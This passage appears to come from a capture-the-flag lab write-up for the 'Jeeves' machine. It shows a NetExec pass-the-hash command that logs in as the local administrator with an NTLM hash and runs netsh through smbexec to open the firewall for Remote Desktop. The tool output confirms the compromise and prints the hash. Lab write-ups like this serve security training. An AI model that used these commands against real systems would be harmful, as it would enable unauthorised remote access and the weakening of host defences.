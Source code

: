 ```bash
nxc smb 10.129.59.102 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb857[...snip...]238cbe81fe00' --local-auth -x 'netsh firewall set service remotedesktop enable' --exec-method smbexec
SMB         10.129.59.102   445    JEEVES           [*] Windows 10 Build 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True) 
SMB         10.129.59.102   445    JEEVES           [+] JEEVES\administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
SMB         10.129.59.102   445    JEEVES           [+] Executed command via smbexec
SMB         10.129.59.102   445    JEEVES           IMPORTANT: Command executed successfully.
SMB         10.129.59.102   445    JEEVES           However, "netsh firewall" is deprecated;
SMB         10.129.59.102   445    JEEVES           use "netsh advfirewall firewall" instead.
SMB         10.129.59.102   445    JEEVES           For more information on using "netsh advfirewall firewall" commands
SMB         10.129.59.102   445    JEEVES           instead of "netsh firewall", see KB article 947709
SMB         10.129.59.102   445    JEEVES           at http://go.microsoft.com/fwlink/?linkid=121488 .
SMB         10.129.59.102   445    JEEVES           Ok.
```

That should be it, RDP should now be enabled...
![screenshot](/images/jeeves/rdp.png)
